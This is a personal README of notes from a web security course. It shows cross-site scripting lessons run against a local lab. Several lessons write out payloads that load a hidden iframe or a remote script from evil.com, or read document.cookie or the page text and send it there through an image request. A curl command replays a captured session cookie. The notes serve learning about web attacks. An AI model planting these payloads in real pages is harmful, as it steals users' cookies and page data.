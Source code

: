 # Web Security Essentials

The code in this repository is based on the
[Web Security Essentials](https://egghead.io/lessons/express-course-overview-web-security-essentials)
course.
The preceding repository was also forked to
[this repo](https://github.com/carltonj2000/web-security-essentials)

## Setup

From the repository link in the above section, did the following:

- Used the code from `./exercises/01` as the starter code.
  - deleted `_INSTRUCTIONS.md` and `_SOLUTIONS.md`.
- Copied `./package.json` and ran `npm install` to install the dependencies.
- Ran `npm run start` and verified `http://localhost.charlesproxy.com`.
- Ran `npm run start:evil.com` and verified `https://evil.com:666`.
- Notes from each lessons follows in reverse chronological order.
- [Git hub repo](https://github.com/carltonj2000/web-sec-ess)

## Lesson 16

Iframe script injection.

---

## <iframe hidden src="https://evil.com:666/steal.html"></iframe>

## Lesson 14

Remote script injection.

---

## <script src="https://evil.com:666/hijack.js"></script>

## Lesson 12

Inline script injection.

---

<script>
  var data = document.body.innerText;
  console.log(data);
  var payload = encodeURIComponent(data);
  var img = new Image();
  img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>

---

## Lesson 10

Inline script injection.

---

<script>
  var payload = encodeURIComponent(document.cookie);
  var img = new Image();
  img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>

---

## Lesson 1

In the `./exercises/01` ran `npm start` and `npm run start:evil.com`.
Use `proxyman` to capture a post request from `localhost.charlesproxy.com` and
modified the following lines to post a custom message. Deleted the proxy line.

---

-H 'Content-Length: 13' \
--proxy http://localhost:9090 \
-d 'message=hello'

---

---

curl 'http://localhost.charlesproxy.com/' \
-X POST \
-H 'Accept: _/_' \
-H 'Host: localhost.charlesproxy.com' \
-H 'Accept-Language: en-US,en;q=0.9,vi-VN;q=0.8,vi;q=0.7' \
-H 'Referer: http://localhost.charlesproxy.com/' \
-H 'Content-Length: 24' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36' \
-H 'Origin: http://localhost.charlesproxy.com' \
-H 'Proxy-Connection: keep-alive' \
--cookie '\_ga=GA1.2.761887530.1582043871; \_gid=GA1.2.218915999.1582043871; connect.sid=s%3AzLtpL8zTUgQLX0EwsUX9uMuHwZTezm-z.pxrPgt%2BNCyiV678Gz%2BUUOfuUUhRXl%2FWuW2PyH204oLk' \
-d 'message=carlton+was+here'

---
